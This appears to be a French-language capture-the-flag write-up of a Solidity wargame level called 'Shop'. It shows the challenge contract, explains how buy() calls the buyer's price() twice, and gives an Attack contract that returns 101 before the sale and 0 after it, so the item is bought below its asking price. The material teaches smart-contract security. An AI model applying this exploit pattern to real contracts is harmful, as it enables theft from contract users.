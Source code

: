 Сan you get the item from the shop for less than the price asked?

##### Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding how `gas()` options works

```javascript
pragma solidity ^0.5.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}
```

### Analyse

Le but de ce niveau est de modifier la valeur de `price`.

Lors d'un appel à `buy()`, on récupère la valeur de `price` à deux reprises. La premier au seins du `if` avec `_buyer.price.gas(3000)() >= price`, sur cette dernière on s'assure que le `price` est supérieur à `100`.

```javascript
price = _buyer.price.gas(3000)();
```

La second appel à `price()` permet de définir la nouvelle valeur de `price`.

On comprend que le valeur de `price` ne peut que augmenter alors que nous voulons la réduire.

Pour la réduire, nous devons définir une fonction `price()` qui va retourner une valeur > 100 lors de son premier appel, puis une valeur < 100 lors de son second appel.

### Attaque

```javascript
contract Attack is Buyer {
  Shop object;
    
  function go(address addr) public {
      object = Shop(addr);
      object.buy();
  }

  function price() external view returns (uint) {
    return Shop(msg.sender).isSold() ? 0: 101;
  }
}
```
